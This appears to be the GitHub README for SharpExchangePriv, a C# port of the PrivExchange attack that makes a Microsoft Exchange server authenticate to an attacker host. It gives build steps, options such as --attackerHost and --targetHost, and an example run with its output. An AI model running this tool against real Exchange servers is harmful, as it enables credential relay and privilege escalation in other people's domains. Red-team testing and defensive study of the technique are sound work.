 # SharpExchangePriv

## Description ##

A C# implementation of PrivExchange by [@_dirkjan](https://twitter.com/_dirkjan). Kudos to [@g0ldenGunSec](https://twitter.com/G0ldenGunSec), as I relied on his code.

It was tested against Exchange 2016.

## Compile Instructions ## 

SharpExchangePriv has been built against .NET 3.5 and is compatible with Visual Studio 2017. Simply open the solution file and build the project.

I used the CommandLineParser in order to parse the arguments. This will create the `CommandLine.dll` file, along with the executable. You can simple merget the .exe and the .dll into one executable file:

`ILMerge.exe /out:C:\SharpExchangePriv.exe C:\Release\SharpExchangePriv.exe C:\Release\CommandLine.dll`

## Usage ##

#### `--targetHost`

Set the IP of the target host.

#### `--attackerHost`

Set the attacker's IP

#### `--attackerPort`

Set the attacker's port

#### `--attackerPage`

Set the attacker's page

#### `--ssl`

Enable SSL

#### `--exchangeVersion`

Set Exchange version, default is 2015

#### `--exchangePort`

Set Exchange target port

## Example ##

```
C:\Users\george.brown\Desktop>SharpExchangePriv.exe --attackerHost 192.168.11.132 --targetHost 192.168.11.10
 /$$$$$$$           /$$            /$$$$$$$$                     /$$
| $$__  $$         |__/           | $$_____/                    | $$
| $$  \ $$ /$$$$$$  /$$ /$$    /$$| $$       /$$   /$$  /$$$$$$$| $$$$$$$   /$$$$$$  /$$$$$$$   /$$$$$$   /$$$$$$
| $$$$$$$//$$__  $$| $$|  $$  /$$/| $$$$$   |  $$ /$$/ /$$_____/| $$__  $$ |____  $$| $$__  $$ /$$__  $$ /$$__  $$
| $$____ /| $$  \__ /| $$ \  $$/$$/ | $$__ /    \  $$$$/ | $$      | $$  \ $$  /$$$$$$$| $$  \ $$| $$  \ $$| $$$$$$$$
| $$     | $$      | $$  \  $$$/  | $$        >$$  $$ | $$      | $$  | $$ /$$__  $$| $$  | $$| $$  | $$| $$_____ /
| $$     | $$      | $$   \  $/   | $$$$$$$$ /$$/\  $$|  $$$$$$$| $$  | $$|  $$$$$$$| $$  | $$|  $$$$$$$|  $$$$$$$
|__/     |__/      |__/    \_/    |________/|__/  \__/ \_______/|__/  |__/ \_______/|__/  |__/ \____  $$ \_______/
                                                                                               /$$  \ $$
                                                                                              |  $$$$$$/
                                                                                               \______ /
                                                                                                            @den_n1s

The target URL is https://192.168.11.10:443/EWS/Exchange.asmx

Sent request to exchange server: https://192.168.11.10:443/EWS/Exchange.asmx

HTTP 200 response received, the target Exchange server should be authenticating shortly.
```

## Contact ##

Please submit any bugs on the Github project page or give me a shout on twitter [@den_n1s](https://twitter.com/den_n1s)
